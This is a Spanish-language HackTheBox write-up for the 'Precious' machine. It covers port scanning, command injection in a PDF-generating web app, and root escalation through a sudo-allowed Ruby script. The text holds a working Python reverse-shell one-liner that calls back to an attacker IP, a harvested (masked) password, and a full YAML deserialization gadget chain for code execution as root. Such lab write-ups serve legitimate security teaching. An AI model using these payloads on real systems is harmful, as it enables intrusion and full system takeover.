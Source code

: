 ```yaml
---
title: "Precious - HTB Writeup"
layout: single
excerpt: "Maquina HTB de dificultad facil, en esta maquina se ve como realizar un exploit a una aplicación web vulnerable usando una ejecución remota de comandos y un servidor local. La escalada de privilegios se basa despues en la explotación de un privilegio de sudo a un archivo .yml."
show_date: true
classes: wide
header:
  teaser: https://user-images.githubusercontent.com/63744631/221410290-68454d65-cce6-465a-8eaa-80437dcf79a6.png
  teaser_home_page: true
  icon: assets/images/icons/HackTheBox-icon.png
categories:
  - HackTheBox
  - Easy
  - Writeup
tags:
  - Web
  - yml
  - sudo

---
```


![Precious](https://user-images.githubusercontent.com/63744631/221415195-6ef69308-7a97-474e-9d99-aea922038d8a.png)

# Enumeración 🔎

Como siempre realizamos una pequeña enumeración rápida con el siguiente comando buscando cualquier puerto abierto.

```bash
nmap -sS  -T5 --min-rate 5000 -p- 10.129.228.98 -vvv -oG allports
```

Esta primera busqueda la utilizaremos para buscar rapidamente puertos abiertos para realizar un escaneo mas profundo.

```bash
nmap -sCV -T5 --min-rate 5000 -p22,80 10.129.228.98 -oN openports
```

Como podemos ver en el resultado de la busqueda tenemos una redirección en el puerto 80 por lo que si intentamos acceder desde el navegador no tendremos resolución DNS.

```bash
 # Nmap 7.93 scan initiated Sun Feb 26 11:29:01 2023 as: nmap -sCV -T5 --min-rate 5000 -p22,80 -oN openports 10.129.228.98
 Nmap scan report for 10.129.228.98
 Host is up (0.039s latency).

 PORT   STATE SERVICE VERSION
 22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
 | ssh-hostkey:
 |   3072 845e13a8e31e20661d235550f63047d2 (RSA)
 |   256 a2ef7b9665ce4161c467ee4e96c7c892 (ECDSA)
 |_  256 33053dcd7ab798458239e7ae3c91a658 (ED25519)
 80/tcp open  http    nginx 1.18.0
 |_http-server-header: nginx/1.18.0
 |_http-title: Did not follow redirect to http://precious.htb/
 Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

 Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
 # Nmap done at Sun Feb 26 11:29:11 2023 -- 1 IP address (1 host up) scanned in 9.32 seconds
```

Para acceder se puede modificar el fichero hosts para que la resolución se realice en nuestro propio equipo y ganar acceso a la pagina.

![Website1](https://user-images.githubusercontent.com/63744631/221415370-4de07743-1bf5-498a-b1f3-24491d4db797.png)

## Explotación 🔑

Creamos un servidor de python3 en nuestro equipo para que la maquina pueda tener una URL funcional de la cual tendremos control. Si escribimos la IP y puerto de la maquina podremos acceder a este desde la pagina web y crear archivos pdf.

```bash
❯ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.129.228.98 - - [26/Feb/2023 11:47:12] "GET / HTTP/1.1" 200 -
10.129.228.98 - - [26/Feb/2023 11:47:58] "GET /smbscan HTTP/1.1" 200 -
```

![Website2](https://user-images.githubusercontent.com/63744631/221415374-4c455832-30bd-4604-81b0-07c3b5c5b871.png)
Podemos mirar dentro de las propiedades del archivo desde el propio navegador y se puede ver la aplicación con la que se ha creado.

![Metadata](https://user-images.githubusercontent.com/63744631/221415396-f4f8d6ea-1d5f-45f2-9ac4-383bdb71e4c2.png)

Una vez conseguido el nombre de la aplicación podemos buscar si la versión que corre en el servidor tiene algun exploit, haciendo una busqueda en internet podemos encontrar que es vulnerable a command injection. Podemos hacer una pequeña prueba haciendo un sleep 5 si el servidor se demora en devolver la pagina web habremos confirmado que es vulnerable.

```python
http://10.10.14.67:8000/?name=#{'%20`sleep 5`'}
```

Al realizar la prueba la pagina tarda en devolvernos el pdf por lo que ya sabemos que es vulnerable a command injection buscando podemos entonces intentar cargar un exploit en este caso vamos a probar la oneline revershell de python3

```python
http://10.10.14.67/?name=%20`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.67",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'`
```

Una vez realizado el exploit tendremos acceso a una bash con el usuario ruby.

```bash
❯ sudo nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.67] from (UNKNOWN) [10.129.228.98] 50120
$ whoami
whoami
ruby
$
```

El usuario que hemos adquirido haciendo la explotación no nos permite acceder a ninguna flag por lo que tendremos que realizar una escalada de privilegios para adquirirlas.

## Escalada de privilegios 🚀

Dentro de la maquina con ruby no podremos hacer mucho por lo que deberemos de investigar la maquina por si hubiera alguna contraseña en claro, buscando por el directorio web no se encuentra nada pero en la carpeta /home/ruby podemos encontrar una carpeta oculta .bundle el cual contiene la contraseña de henry.

```bash
$ cat config
cat config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:QXDXDXDXDXDXDXDXDXDH"
$
```

Con esta contraseña podemos acceder por SSH ya que comprobamos en la enumeración de la maquina que teniamos el puerto 22 abierto. 

```bash
henry@precious:~$ ls
user.txt
henry@precious:~$ cat user.txt
f--------------------------3
henry@precious:~$
```

### Escalada a root

Para finalizar la maquina haremos la escalada a root lo primero que haremos sera comprobar si henry tiene algun privilegio de sudo. Podemos encontrar que puede utilizar los siguientes comandos:

```ruby
henry@precious:~$ sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

Con este dato podemos ver que acciones realiza el archivo update_dependencies.rb

```ruby
# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```

Como podemos ver en el archivo se utiliza el archivo dependencies.yml de la ruta en la que nos encontremos al no estar sanitizada y trabajar con una ruta relativa podemos utilizarlo para realizar nuestro ataque.

[Blind Remote Code Execution through YAML Deserialization (stratumsecurity.com)](https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/)

En concreto vamos a estar usando la ejecución remota de comandos que tenemos en el enlace de arriba. Generamos el archivo dependencies.yml pero en vez de realizar el sleep 600 que muestra enla poc vamos a utilizar el comando id para comprobar que se ejecuta como root.

#### dependencies.yml

```yml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: id
         method_id: :resolve
```

```bash
henry@precious:~$ sudo /usr/bin/ruby /opt/update_dependencies.rb
sh: 1: reading: not found
uid=0(root) gid=0(root) groups=0(root)
Traceback (most recent call last):
```

Como vemos hemos ejecutado el comando que se encuentra en el campo git_set como root por lo que podemos spawnear una shell gracias a esto. Solo deberemos de cambiar la linea mencionada por /bin/bash -i

```bash
root@precious:/home/henry# cat /root/root.txt ; cat user.txt
4XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXd
fXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX3
root@precious:/home/henry#
```

